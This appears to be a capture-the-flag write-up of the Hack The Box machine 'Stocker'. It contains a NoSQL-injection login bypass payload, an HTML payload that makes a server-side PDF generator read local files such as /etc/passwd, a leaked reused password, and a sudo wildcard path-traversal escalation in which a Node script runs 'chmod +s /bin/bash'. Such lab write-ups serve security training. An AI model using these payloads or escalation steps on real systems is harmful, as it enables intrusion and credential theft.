 ![](stocker_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.196 stocker.htb`

****nmap scan: TCP/IP****

```bash
Nmap scan report for 10.10.11.196
Host is up (0.48s latency).

PORT     STATE  SERVICE        VERSION
22/tcp   open   ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp   open   http           nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Web server is redirecting to hostname `stocker.htb`

<div style="max-height: 500px; overflow: hidden; position: relative; margin-bottom: 20px;">
  <a href="screenshots/http-stocker.htb.png">
    <img src="screenshots/http-stocker.htb.png" style="clip-path: polygon(0 0, 100% 0, 100% 460px, 49% 490px, 51% 470px, 0 500px); -webkit-clip-path: polygon(0 0, 100% 0, 100% 460px, 49% 490px, 51% 470px, 0 500px)" alt="image-20220608173116399">
  </a>
  <div style="position: absolute; right: 20px; top: 475px"><a href="screenshots/http-stocker.htb.png"><i>Click for full image</i></a></div>
</div>

<!-- ![](screenshots/http-stocker.htb.png) -->

* an employee name from the homepage -> `Angoose Garden`

`ffuf` found a vHost - `dev.stocker.htb`
```bash
[Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 414ms]
    * FUZZ: dev
```

![](screenshots/http-dev.stocker.htb.png)

A login page, and nothing else from both apps.

# Foothold

## NoSQLi With JSON

After some try, found nosql injection in the login page and able to bypass the authentication. Payload -> `{"username": {"$ne": null}, "password": {"$ne": null}}`

![](screenshots/http-dev.stocker.htb-login-nosqli.png)

And redirected to `/stock`

![](screenshots/http-dev.stocker.htb-stock.png)

There a few items listed on the page, and we can add them in our cart.

![](screenshots/http-dev.stocker.htb-stock-cart.png)

On clicking submit button, we get a link,

![](screenshots/http-dev.stocker.htb-stock-cart-submit.png)

which open a pdf file with order invoice.

![](screenshots/http-dev.stocker.htb-stock-cart-invoice.png)

PDF file is generating server side.

## PDF XSS

When putting html code it render in the pdf file. So, we can use XSS to read arbitrary file -> https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#read-local-file


Payload -> `<object width=1000 height=1000 data=\"file:///etc/passwd\">`

![](screenshots/http-dev.stocker.htb-stock-xss-0.png)

![](screenshots/http-dev.stocker.htb-stock-xss.png)

* Username -> `angoose`

And from a json parser error got the web app filesystem location

![](screenshots/http-dev.stocker.htb-order-json.png)

and from `/var/www/dev/index.js`, got a database password with reused in user "angoose" ssh login.

**Creds:** `angoose:IHeardPassphrasesArePrettySecure`

![](screenshots/http-dev.stocker.htb-stock-xss-pass.png)


# Privesc

## Nodejs with sudo

And user "angoose" can run `/usr/bin/node` on `/usr/local/scripts/*.js` with sudo.
```bash
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

BUt `/usr/local/scripts/` directory is not writable, as so we can do directory traversal on asterisk sign (`*`)

Here is a simple node js script to do some read, write tasks.
```js
cat > /tmp/tasker.js << EOF

const fs = require("fs");
const { exec } = require("child_process");
const encoding = "utf8";

// Function to read file contents
function readFileContents(inputFilePath) {
  fs.readFile(inputFilePath, encoding, (err, inputData) => {
    if (err) {
      console.error(err);
    } else {
      console.log(inputFilePath + " file contents:");
      console.log(inputData);
    }
  });
}

// Function to write modified file contents
function writeFileContents(inputFilePath, outputFilePath) {
  const outputFilePathBak = outputFilePath + ".bak";
  if (fs.existsSync(outputFilePath)) {
    // Move the existing output file to a backup file
    fs.renameSync(outputFilePath, outputFilePathBak);
    console.log("Moved existing file to " + outputFilePathBak);
  }

  fs.readFile(inputFilePath, encoding, (err, inputData) => {
    if (err) {
      console.error(err);
    } else {
      // Write the modified data to the output file
      fs.writeFile(outputFilePath, inputData, (err) => {
        if (err) {
          console.error(err);
        } else {
          console.log("File written to " + outputFilePath);
        }
      });
    }
  });
}

// Function to execute system commands
function executeCommand(command) {
  console.log("Command stdin: " + command);
  exec(command, (error, stdout, stderr) => {
    if (error) {
      console.error("Command execution error: " + error);
      return;
    }
    if (stderr) {
      console.error("Command stderr: " + stderr);
      return;
    }
    console.log("Command stdout: " + stdout);
  });
}

// Uncomment one of the following lines to execute the corresponding function
// readFileContents("/root/root.txt");
// writeFileContents("/tmp/inputfile.txt", "/tmp/outputfile.txt");
executeCommand("chmod +s /bin/bash");

EOF
```

And run with sudo.
```bash
sudo /usr/bin/node /usr/local/scripts/../../../tmp/tasker.js
```

![](screenshots/rooted.png)